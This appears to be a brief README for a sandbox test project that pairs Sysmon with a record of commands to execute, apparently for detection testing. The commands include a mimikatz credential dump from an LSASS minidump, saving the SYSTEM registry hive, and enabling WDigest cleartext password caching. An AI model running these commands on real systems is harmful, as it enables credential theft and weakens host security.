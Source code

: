 # sandbox_test

- sand.py: code
- Sysmon64.exe: sysmon
- sysmonconfig.xml: config

#### note: put Sysmon64.exe and sysmonconfig.xml in C:\Users\\{Username}\Documents

##### payload record:
##### SCHTASKS (powershell only)
$time = [DateTime]::Now.AddMinutes(30)
$hourMinute = $time.ToString("HH:mm")
SCHTASKS /Create /SC ONCE /TN "Open Notepad" /TR "notepad.exe" /ST $hourMinute


mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

copy %USERPROFILE%\\Desktop\\SandboxFiles\\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles .  /H  /Y

reg save HKLM\SYSTEM c:\system.save

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
